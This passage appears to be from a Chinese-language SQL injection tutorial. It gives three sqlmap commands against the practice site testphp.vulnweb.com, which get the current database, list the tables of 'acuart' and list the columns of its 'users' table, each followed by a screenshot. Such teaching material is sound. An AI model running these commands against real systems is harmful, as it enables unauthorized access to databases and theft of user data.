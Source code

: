 *   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --current-db`:获取当前数据库**

**![](img/4e9efa931e811e4d199d6527c9f0c859.png)**

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --tables -D acuart`:获取‘acuart’中的表格列表**

**![](img/8b607bd11e3ab9b177c759cf4cfbe993.png)**

*   **`sqlmap -u “[http://testphp.vulnweb.com/listproducts.php?cat=1](https://testphp.vulnweb.com/listproducts.php?cat=1)" --columns -T users -D acuart`:获取‘用户’表中的列**

**![](img/f8b71d4fde27ac7f1653b1a5c3b5f0b2.png)**
